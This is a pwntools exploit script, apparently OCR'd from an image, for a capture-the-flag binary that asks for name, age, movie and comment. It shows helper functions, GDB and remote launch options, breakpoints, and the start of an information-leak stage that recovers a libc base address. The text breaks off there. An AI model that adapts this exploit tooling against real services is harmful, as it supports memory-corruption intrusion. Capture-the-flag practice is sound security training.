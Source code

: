 ```python
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())

def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

def start(argv=[], *a, **kw):

    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.ARM:
        return process(['qemu-arm', '-g', '1234', '-L', '/usr/arm-linux-gnueabihf', exe.path])
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "/home/app/chall"]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
b*0x0804868a
b*0x080486bc
b*0x080486f8
b*0x0804873e
b*0x0804875e
b*080487CC
'''.format(**locals())

# ==================== EXPLOIT ====================

def init():
    global p

    p = start()
def info(reason,movie,ok=False,end=False):
    global libc_base
    global stack_leak
    sleep(0.7)
    p.sendafter(b'name: ',b'kuvee')
    sleep(0.7)
    p.sendlineafter(b'age: ',b'22')
    sleep(0.7)
    p.sendafter(b'movie? ',reason)
    sleep(0.7)
    p.sendafter(b'comment: ',movie)
    if ok == True:
        pass
    elif ok == 2:
        p.recvuntil(b'Reason: ')
        p.recv(20)
        libc_base = u32(p.recv(4)) - 0x5f29b
```